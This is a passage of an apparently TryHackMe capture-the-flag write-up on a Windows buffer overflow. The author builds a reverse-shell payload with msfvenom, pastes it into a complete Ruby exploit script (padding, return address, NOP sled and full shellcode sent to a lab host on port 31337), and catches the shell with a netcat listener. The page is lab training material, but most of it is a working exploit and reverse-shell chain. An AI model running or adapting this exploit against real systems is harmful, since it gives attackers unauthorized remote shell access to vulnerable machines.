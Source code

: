 Now, we have a working template in both Python and Ruby, we can choose either one of them. I am using the final Ruby template for the actual show. However, first we need to create a new payload by using the IP address on THM:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.87.151 LPORT=6000 -f rb -a x86 --platform windows -b "\x00\x0A"
```
Couple of things to note here. LHOST has my IP when I connect to THM via openvpn, you can find that out by running:
```bash
ifconfig
```
And look for ```tun0``` device. You also notice that I am using a different port for LPORT on my machine. I just wanted to use a different port than 5555. Now, we need to copy and paste the encoded payload into our Ruby template:

![Final Shellcode Payload](finalExplRuby.png)
```Ruby
buff = "A"*146
buff += "\xc3\x14\x04\x08"
buff += "\x90"*8
buff += "\xda\xd4\xbf\x37\xf4\x5a\xb9\xd9\x74\x24\xf4\x5a\x2b\xc9" +                                                                                                            
"\xb1\x52\x31\x7a\x17\x83\xc2\x04\x03\x4d\xe7\xb8\x4c\x4d" +                                                                                                            
"\xef\xbf\xaf\xad\xf0\xdf\x26\x48\xc1\xdf\x5d\x19\x72\xd0" +                                                                                                            
"\x16\x4f\x7f\x9b\x7b\x7b\xf4\xe9\x53\x8c\xbd\x44\x82\xa3" +                                                                                                            
"\x3e\xf4\xf6\xa2\xbc\x07\x2b\x04\xfc\xc7\x3e\x45\x39\x35" +                                                                                                            
"\xb2\x17\x92\x31\x61\x87\x97\x0c\xba\x2c\xeb\x81\xba\xd1" +                                                                                                            
"\xbc\xa0\xeb\x44\xb6\xfa\x2b\x67\x1b\x77\x62\x7f\x78\xb2" +                                                                                                            
"\x3c\xf4\x4a\x48\xbf\xdc\x82\xb1\x6c\x21\x2b\x40\x6c\x66" +                                                                                                            
"\x8c\xbb\x1b\x9e\xee\x46\x1c\x65\x8c\x9c\xa9\x7d\x36\x56" +                                                                                                            
"\x09\x59\xc6\xbb\xcc\x2a\xc4\x70\x9a\x74\xc9\x87\x4f\x0f" +                                                                                                            
"\xf5\x0c\x6e\xdf\x7f\x56\x55\xfb\x24\x0c\xf4\x5a\x81\xe3" +
"\x09\xbc\x6a\x5b\xac\xb7\x87\x88\xdd\x9a\xcf\x7d\xec\x24" +
"\x10\xea\x67\x57\x22\xb5\xd3\xff\x0e\x3e\xfa\xf8\x71\x15" +
"\xba\x96\x8f\x96\xbb\xbf\x4b\xc2\xeb\xd7\x7a\x6b\x60\x27" +
"\x82\xbe\x27\x77\x2c\x11\x88\x27\x8c\xc1\x60\x2d\x03\x3d" +
"\x90\x4e\xc9\x56\x3b\xb5\x9a\x52\xb5\xe2\xcd\x0b\xc7\x0c" +
"\xe5\xbb\x4e\xea\x63\x2c\x07\xa5\x1b\xd5\x02\x3d\xbd\x1a" +
"\x99\x38\xfd\x91\x2e\xbd\xb0\x51\x5a\xad\x25\x92\x11\x8f" +
"\xe0\xad\x8f\xa7\x6f\x3f\x54\x37\xf9\x5c\xc3\x60\xae\x93" +
"\x1a\xe4\x42\x8d\xb4\x1a\x9f\x4b\xfe\x9e\x44\xa8\x01\x1f" +
"\x08\x94\x25\x0f\xd4\x15\x62\x7b\x88\x43\x3c\xd5\x6e\x3a" +
"\x8e\x8f\x38\x91\x58\x47\xbc\xd9\x5a\x11\xc1\x37\x2d\xfd" +
"\x70\xee\x68\x02\xbc\x66\x7d\x7b\xa0\x16\x82\x56\x60\x26" +
"\xc9\xfa\xc1\xaf\x94\x6f\x50\xb2\x26\x5a\x97\xcb\xa4\x6e" +
"\x68\x28\xb4\x1b\x6d\x74\x72\xf0\x1f\xe5\x17\xf6\x8c\x06" +
"\x32"

RHOST = "10.10.110.117"
RPORT = 31337


require 'socket'

TCPSocket.open(RHOST,RPORT){ |s| s.puts buff}
```
Before running our Ruby script, let's start our netcat listener ```bash nc -nlvp 6000``` and let's fire away our Ruby script ```ruby shellcode.rb```

![Final Reverseshell](finalReverseshell.md)

Nice, we are now in the machine as natbat user. Next, we'll look for some information...

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
